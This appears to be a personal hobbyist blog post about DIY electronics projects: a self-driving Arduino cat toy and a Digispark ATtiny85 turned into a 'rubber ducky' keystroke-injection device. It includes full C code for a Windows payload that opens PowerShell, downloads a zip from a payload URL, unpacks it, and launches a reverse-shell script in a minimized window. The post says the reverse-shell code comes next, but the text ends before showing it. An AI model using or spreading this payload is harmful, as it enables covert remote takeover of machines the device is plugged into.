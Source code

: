```yaml
---
author: Alessandro Ideo
github_username: usg-ishimura
tags: hacking
image: https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ae3c68f0-39e9-49c4-bb5c-07ef01d8fdfd
---
```


# DIY Electronics

Some of my recent projects include: 

## Self driving and IR controlled Arduino car as a toy for my cat

![WhatsApp Image 2024-02-13 at 15 09 03](https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ecdb3725-5078-467a-b606-7b38b9de28a6)

## Digispark italian duckuino

Digispark attiny85 can be programmed in C as a rubber ducky, here can be seen in action on a linux target

<video width="100%" height="auto" controls poster="https://img.youtube.com/vi/aW8nFgRwnoA/0.jpg">
  <source src="https://user-images.githubusercontent.com/103458862/221435341-da1ec07e-903d-4ed8-ba8d-e3d7a9163a5d.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

Here the C windows payload for the DIY rubber ducky

```c
#include "DigiKeyboard.h"

void setup() {

	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
	DigiKeyboard.delay(1000);
	DigiKeyboard.print("powershell");
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(1000);
	DigiKeyboard.println("wget https://embeddable-package-&-payload-URL/python-w32.zip -O python-w32.zip");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("Expand-Archive -Force python-w32.zip -DestinationPath App");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("cd App\\python-w32; Start-Process -WindowStyle Minimized .\\python reverse.py; exit");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	  
}

void loop() {

}
```

Here the code for the reverse shell:



